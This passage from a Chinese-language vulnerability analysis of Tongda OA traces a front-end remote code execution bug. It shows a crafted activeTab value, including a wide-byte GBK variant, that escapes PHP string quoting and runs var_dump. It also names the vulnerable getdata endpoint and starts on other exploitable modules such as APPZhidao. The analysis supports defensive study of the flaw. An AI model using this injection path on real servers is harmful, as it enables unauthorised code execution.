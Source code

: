 结果如下：

```php
string(310) "array (
  'page_total' => NULL,
  'total_nums' => NULL,
  'curnum' => 1,
  'pagelimit' => 10,
  'open_mode' => '0',
  'activeTab' => '\\\'.var_dump(11111));?>',
  'show_title' => NULL,
  'show_dots' => NULL,
  'speed' => NULL,
  'data' =>
  array (
  ),
  'showPages' => 0,
  'data_sources' => 'serv_data',
)"
string(312) "array (
  'page_total' => NULL,
  'total_nums' => NULL,
  'curnum' => 1,
  'pagelimit' => 10,
  'open_mode' => '0',
  'activeTab' => '錦\\'.var_dump(11111));?>',
  'show_title' => NULL,
  'show_dots' => NULL,
  'speed' => NULL,
  'data' =>
  array (
  ),
  'showPages' => 0,
  'data_sources' => 'serv_data',
);"
int(11111)
```

可以看到成功进行了逃逸。至此通达OA前台RCE的原理也就分析完了。

#### 寻找其它的利用处

##### 其它可以利用的组件模块

在上面的源码分析，我们也发现了只要最终调用的module中的get\_data的返回含有我们可控的activeTab，就可以在/general/appbuilder/web/portal/gateway/getdata进行rce。在comtype为0的情况下，寻找的是文件夹function\_components下面的类，其中有一个APPZhidao类，它的get\_data如下：

```php
    public function get_data($thisarray)
    {
        $json = $thisarray["attribute"];
        $activeTab = $thisarray["activeTab"];
        $curnum = $thisarray["curnum"];
        $pagelimit = $thisarray["pagelimit"];
        $timetype = $thisarray["timetype"];
        $ret = (array) modules\portal\models\function_components\json_decode($json);
        $json_data = modules\appdesign\models\AppUtils::object2Array($ret);
        $json_data = modules\appdesign\models\AppUtils::toGBK($json_data);

        if ($timetype) {
            $this_time = modules\appdesign\models\AppUtils::get_time($timetype);
            $this->beginTime = $this_time["beginTime"];
            $this->endTime = $this_time["endTime"];
        }

        $curnum = ($curnum ? $curnum : 1);
```